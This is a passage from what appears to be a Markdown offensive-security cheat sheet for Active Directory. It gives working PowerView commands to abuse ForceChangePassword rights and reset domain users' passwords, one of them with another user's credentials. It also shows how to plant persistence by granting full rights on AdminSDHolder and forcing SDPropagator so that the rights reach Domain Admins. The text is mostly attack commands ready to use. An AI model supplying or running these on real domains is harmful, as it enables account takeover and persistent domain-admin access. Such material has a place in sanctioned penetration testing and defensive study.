 ```powershell
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

### <span style="color:#F1C232">Abusing ForceChangePassword with a different user's creds</span>
 
```powershell
Import-Module .\PowerView_dev.ps1

#Setting password for runas user for
$SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force

#Setting password for runas user for
$Cred = New-Object System.Management.Automation.PSCredential('Domain-Name-Here\User-here', $SecPassword)

#Set new password fot the user where you can abuse ForceChangePassword
$UserPassword = ConvertTo-SecureString 'Password1!' -AsPlainText -Force

#Update the password for that user
Set-DomainUserPassword -Identity User-Whose-Password-You-Want-To-Change-here -AccountPassword $UserPassword -Crendential $Cred

```

## <span style="color:lightgreen">Get Generic-All Access </span>

### <span style="color:#F1C232">Import the ADModule and set the SDPropagator PS script in the same path folder</span>

```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName user1 -Rights All -Verbose

$sess = New-PSSession -Computername star-dc.root.local
Invoke-Command -FilePath ".\Invoke-SDPropagator.ps1" -Session $sess
Enter-PSSession -Session $sess

[star-dc.root.local]:PS> Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

### <span style="color:#F1C232">Now if we check the permissions of the user he should have generic-all access available</span>

```powershell
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'user1'}
```
